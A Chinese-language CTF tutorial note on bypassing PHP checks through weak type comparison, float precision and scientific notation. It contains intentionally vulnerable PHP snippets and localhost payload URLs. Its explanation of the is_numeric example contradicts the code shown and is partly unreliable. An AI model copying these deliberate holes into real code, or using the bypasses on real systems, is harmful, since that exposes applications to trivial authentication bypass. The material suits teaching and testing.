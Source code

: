 ## 数字运算

一、不同类型数据比较运算

is_numeric函数中判断temp的值是否为数字类型，如果是数字或数字字符串则返回true绕过函数，否咋返回Sorry....并退出脚本；

if判断是如果temp的数值大于1336则显示flag，这里用到了PHP弱类型的一个特性，当一个整形和一个其他类型行比较的时候，会先把其他类型intval数字化再比；

如果输入一个1337a这样的字符串，在is_numeric中返回true，然后在比较时会被转换成数字1337，这样就绕过判断输出flag。

```
<?php
	error_reporting(0);
	$flag = 'flag{FlagIsHere}';
	$temp = $_GET['temp'];
	is_numeric($temp)?die("Sorry...."):NULL;    
	if($temp>1336){
	    echo $flag;
	} 
?>
  
http://127.0.0.1/ctf.php?temp=1337a
```

二、精度绕过

php精度（16以上）；

```
<?php
    var_dump(0.9999999999999999999==1);
?>
  
bool(true)
```

PHP和MySQL中浮点数精度不同的特性：

在PHP中1.0000000000000001 !== 1；

而在MySQL中1.0000000000000001 == 1；

三、科学计数法绕过

password至少需要12位，绕过第一个if；

必须等于（==）42.才能拿到flag；

这里就可以使用科学计数法420.00000e-1；

```
<?php
	error_reporting(0);
	$flag = 'flag{FlagIsHere}';
    $password = $_GET['password']; 
    var_dump(preg_match('/^[[:graph:]]{12,}$/', $password));
    if (0 >= preg_match('/^[[:graph:]]{12,}$/', $password)) 
    { 
        echo 'Wrong Format'; 
        exit; 
    } 
	if ("42" == $password) echo $flag; 
    else echo 'Wrong password'; 
    exit; 
?>
  
http://127.0.0.1/ctf.php?password=420.00000e-1
```
